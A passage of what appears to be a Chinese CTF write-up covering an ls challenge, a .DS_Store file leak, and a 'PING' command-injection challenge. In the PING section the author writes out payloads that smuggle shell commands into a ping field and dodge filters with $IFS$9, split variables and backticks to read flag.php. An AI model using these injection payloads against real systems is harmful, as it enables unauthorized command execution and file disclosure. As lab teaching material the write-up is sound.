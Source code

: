 得到flag

**考点：ls**

**ls命令是文件列表命令，显示指定目录下的文件和目录列表**

**ls 无参数时，显示当前目录下的文件。当前目录就是指，用户操作命令时，所处的目录，可用pwd看到**

**ls / 参数/是根目录的意思，这表示显示根目录下的文件**

****

### 4..DS_Store

**hint：**

**.DS_Store 是 Mac OS 保存文件夹的自定义属性的隐藏文件。通过.DS_Store可以知道这个目录里面所有文件的清单。**

打开网址发现提示：

备份文件下载 - DS_Store

输入.DS_Store,得到一个文件，打开文件发现有一句ed88518561a6ec8ba205aacde5651ec1.txt，

猜测应该是一个txt文档

在页面上打开该文档，得到flag

**考点：**

**dsstore是自定义属性的隐藏文件。**

**.DS_Store(英文全称 Desktop Services Store)是一种由苹果公司的Mac OS X操作系统所创造的隐藏文件，目的在于存贮目录的自定义属性，**

****

###  5.PING

打开网址，根据标题提示，可知要求输入ping

输入127.0.0.1;ls查询根目录得到两个文件：

flag.php
 index.php

输入127.0.0.1;cat flag.php,发现提示fxck your space!

将空格替换成<> < ${IFS} $IFS$9后，发现<>{}都被过滤，出现提示fxck your symbol!

故输入127.0.0.1;cat$IFS$9flag.php，发现提示fxck your flag!

构造127.0.0.1;a=fl;b=ag;cat$IFS$9$a$b.php,发现仍然提示fxck your flag!

故猜测是flag的字符顺序被过滤

输入127.0.0.1;a=ag;b=fl;cat$IFS$9$a$b.php

查看源码后仍然没有发现flag，使用反引号绕过

输入127.0.0.1;cat$IFS$9`ls`



